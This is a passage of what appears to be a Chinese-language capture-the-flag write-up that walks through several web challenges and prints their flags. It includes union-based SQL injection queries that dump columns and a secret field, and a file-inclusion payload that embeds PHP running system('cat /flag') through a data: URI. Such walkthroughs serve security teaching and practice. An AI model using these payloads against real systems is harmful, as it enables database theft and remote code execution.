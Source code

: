 ![image-20221115144004948](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202211151440089.png?x-oss-process=hzy)

没看到flag，查mysql表名

着实没查到，再回到WelcomeSQL看看，查询user_info所有字段名

```
union select 1,group_concat(column_name) from information_schema.columns where table_schema='WelcomeSQL' and table_name='user_info'
```

![image-20221115144547638](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202211151445787.png?x-oss-process=hzy)

看到了secret，查询

```
 union select 1,group_concat(secret) from WelcomeSQL.user_info
```

![image-20221115144921737](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202211151449871.png?x-oss-process=hzy)

找到flag

SYC{VV31c0me_T0_5QL1_vv01rd_!}



## jsfind

> hint: 游戏玩不了的话请使用chrome试试;你知道如何在js文件中找出敏感路径吗？

![image-20221115145318668](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202211151453731.png?x-oss-process=hzy)

![image-20221115145342528](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202211151453608.png?x-oss-process=hzy)

base64-->JJEncode得到flag

SYC{D@y0u_LiKKe_D3code_EnCodE}

## ezR_F_I

> hint: 想要得到flag就快来包含一下叭 可能你需要一台具有公网ip的服务器

这个hint说明需要远程文件包含了

这个貌似http://会被过滤掉,后面也会加个.html，闹心

![image-20221115150706995](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202211151507056.png?x-oss-process=hzy)

```
?file=data:text/plain,<?php%20system(%27cat%20/flag%27);;?>
```

![image-20221117144754334](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202211171447435.png?x-oss-process=hzy)

SYC{Th1s_is_RFI_hahaha!}

## babyupload
